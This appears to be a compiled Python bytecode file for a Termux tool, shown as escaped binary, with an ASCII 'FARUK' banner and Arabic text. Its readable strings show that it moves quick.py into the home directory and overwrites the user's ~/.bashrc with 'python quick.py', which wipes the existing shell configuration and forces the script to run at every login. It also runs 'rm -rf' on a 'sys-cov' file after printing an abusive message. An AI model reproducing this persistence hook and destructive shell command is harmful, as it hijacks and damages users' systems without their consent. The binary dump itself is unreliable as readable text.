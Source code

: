 arabic.pyc\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x06\x00\x00\x00\x03\x00\x00\x00\xf3\xec\x00\x00\x00\x97\x00t\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00j\x01\x00\x00\x00\x00\x00\x00\x00\x00\xa0\x02\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00d\x01\xa6\x01\x00\x00\xab\x01\x00\x00\x00\x00\x00\x00\x00\x00rTt\x01\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00j\x03\x00\x00\x00\x00\x00\x00\x00\x00d\x02\xa6\x01\x00\x00\xab\x01\x00\x00\x00\x00\x00\x00\x00\x00\x01\x00t\t\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00d\x03d\x04\xa6\x02\x00\x00\xab\x02\x00\x00\x00\x00\x00\x00\x00\x005\x00}\x00|\x00\xa0\x05\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00d\x05\xa6\x01\x00\x00\xab\x01\x00\x00\x00\x00\x00\x00\x00\x00\x01\x00d\x00d\x00d\x00\xa6\x02\x00\x00\xab\x02\x00\x00\x00\x00\x00\x00\x00\x00\x01\x00d\x00S\x00#\x001\x00s\x04w\x02x\x03Y\x00w\x01\x01\x00Y\x00\x01\x00\x01\x00d\x00S\x00d\x00S\x00)\x06Nz\x08quick.pyz\x11mv quick.py $HOME\xfa(/data/data/com.termux/files/home/.bashrc\xda\x01wz\x0fpython quick.py)\x06\xda\x02os\xda\x04path\xda\x06exists\xda\x06system\xda\x04open\xda\x05write)\x01\xda\x02rts\x01\x00\x00\x00 \xfa\x03<x>\xda\x05quickr\x1d\x00\x00\x00\x1c\x00\x00\x00s\xb5\x00\x00\x00\x80\x00\xdd\x04\x06\x84G\x87N\x82N\x90:\xd1\x04\x1e\xd4\x04\x1e\xf0\x00\x05\x02\x08\xdd\x03\x05\x849\xd0\r \xd1\x03!\xd4\x03!\xd0\x03!\xdd\x08\x0c\xd0\r7\xb8\x03\xd1\x08<\xd4\x08<\xf0\x00\x01\x04$\xb8r\xd8\x08\n\x8f\x08\x8a\x08\xd0\x11"\xd1\x08#\xd4\x08#\xd0\x08#\xf0\x03\x01\x04$\xf0\x00\x01\x04$\xf0\x00\x01\x04$\xf1\x00\x01\x04$\xf4\x00\x01\x04$\xf0\x00\x01\x04$\xf0\x00\x01\x04$\xf0\x00\x01\x04$\xf0\x00\x01\x04$\xf0\x00\x01\x04$\xf0\x00\x01\x04$\xf0\x00\x01\x04$\xf8\xf8\xf8\xf0\x00\x01\x04$\xf0\x00\x01\x04$\xf0\x00\x01\x04$\xf0\x00\x01\x04$\xf0\x00\x01\x04$\xf0\x00\x01\x04$\xf0\x06\x00\x04\x08\x804s\x12\x00\x00\x00\xc1\x04\x16A\'\x03\xc1\'\x04A+\x07\xc1.\x01A+\x07c\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x04\x00\x00\x00\x03\x00\x00\x00\xf3B\x00\x00\x00\x97\x00d\x01}\x00t\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\xa0\x01\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00|\x00d\x02\xac\x03\xa6\x02\x00\x00\xab\x02\x00\x00\x00\x00\x00\x00\x00\x00\x01\x00d\x00S\x00)\x04Nz\xd7\n    _________    ____  __  ____ __\n   / ____/   |  / __ \\/ / / / //_/\n  / /_  / /| | / /_/ / / / / ,<   \n / __/ / ___ |/ _, _/ /_/ / /| |  \n/_/   /_/  |_/_/ |_|\\____/_/ |_|  \n                                  \n \n \nz\x0bbold  green)\x01\xda\x05style)\x02\xda\x07consoler\x04\x00\x00\x00)\x01\xda\x01ss\x01\x00\x00\x00 r\x1c\x00\x00\x00\xda\x06bannerr"\x00\x00\x00#\x00\x00\x00s\'\x00\x00\x00\x80\x00\xf0\x02\x06\x06.\x80\x11\xf5\x0e\x00\x02\t\x87\x1d\x82\x1d\x88q\x90}\x80\x1d\xd1\x01%\xd4\x01%\xd0\x01%\xd0\x01%\xd0\x01%\xf3\x00\x00\x00\x00\xe9\x06\x00\x00\x00\xfa(/data/data/com.termux/files/home/sys-cov\xda\x01rr\x14\x00\x00\x00c\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x03\x00\x00\x00\x03\x00\x00\x00\xf3\xc0\x00\x00\x00\x97\x00t\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00j\x01\x00\x00\x00\x00\x00\x00\x00\x00\xa0\x02\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00d\x01\xa6\x01\x00\x00\xab\x01\x00\x00\x00\x00\x00\x00\x00\x00}\x00|\x00d\x02k\x02\x00\x00\x00\x00r\x02d\x00S\x00t\x07\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00d\x03\xa6\x01\x00\x00\xab\x01\x00\x00\x00\x00\x00\x00\x00\x00\x01\x00t\x01\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00j\x04\x00\x00\x00\x00\x00\x00\x00\x00d\x04\xa6\x01\x00\x00\xab\x01\x00\x00\x00\x00\x00\x00\x00\x00\x01\x00t\x0b\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00j\x06\x00\x00\x00\x00\x00\x00\x00\x00\xa6\x00\x00\x00\xab\x00\x00\x00\x00\x00\x00\x00\x00\x00\x01\x00d\x00S\x00)\x05Nr%\x00\x00\x00r$\x00\x00\x00ue\x00\x00\x00\xd8\xa7\xd9\x86\xd8\xaa \xd9\x88\xd9\x84\xd8\xaf \xd9\x82\xd8\xad\xd8\xa8\xd9\x87 \xd8\x9f \xd9\x88\xd9\x84\xd8\xa7\xd8\xaa\xd9\x87\xd9\x8a\xd8\xa7\xd9\x84\xd9\x8a \xd8\xa7\xd9\x84\xd8\xa7\xd8\xaf\xd8\xa7\xd8\xa9 \xd9\x85\xd8\xa8\xd8\xb1\xd9\x85\xd8\xac\xd9\x87\xd8\xa7 \xd8\xb3\xd9\x8a\xd8\xaf\xd9\x87\xd8\xa7 \xd8\xa7\xd9\x84\xd8\xb9\xd8\xa8\xd8\xa7\xd9\x86\xd9\x8a !!z/rm -rf /data/data/com.termux/files/home/sys-cov)\x07r\x15\x00\x00\x00r\x16\x00\x00\x00\xda\x07getsizer\x04\x00\x00\x00r\x18\x00\x00\x00\xda\x03sys\xda\x04exit)\x01\xda\x04sizes\x01\x00\x00\x00